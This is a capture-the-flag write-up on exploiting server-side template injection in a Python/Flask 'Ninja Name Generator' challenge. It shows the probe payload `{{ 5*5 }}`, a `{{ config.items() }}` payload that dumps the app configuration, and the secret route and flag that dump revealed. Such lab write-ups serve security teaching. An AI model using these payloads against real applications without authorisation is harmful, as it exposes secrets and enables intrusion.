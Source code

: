 # Ninja Name Generator

Straightforward app, enter a name, and your ninja name gets revealed:

![app](images/app.png)

When you are able to see your input being reflected back onto the page like this, it is a good idea to check for template injection. I entered `{{ 5*5 }}` as my name. The server responded with `25 KATANA` as the name, proving the vulnerability. 

The API responses also include a header that reveal the backend server is Python:
```
Server: Werkzeug/1.0.1 Python/3.9.0
```

Next, I found a [template injection cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection), and looked for things that would work for Python.

The payload `{{ config.items() }}` can be used to find the configuration:

```python
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('LOGGER_NAME', '__main__'), ('SERVER_NAME', None), ('APPLICATION_ROOT', None), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', 43200), ('TRAP_BAD_REQUEST_ERRORS', False), ('TRAP_HTTP_EXCEPTIONS', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', True), ('SUPER_SECRET_ROUTE', '/_5uPer_s3cret_')]) Shikoro
```

That last tuple, `('SUPER_SECRET_ROUTE', '/_5uPer_s3cret_')`, looks interesting.

Navigating to `/_5uPer_s3cret_` reveals our flag: `H2G2{j1nJ4_1s_s3cure}`.
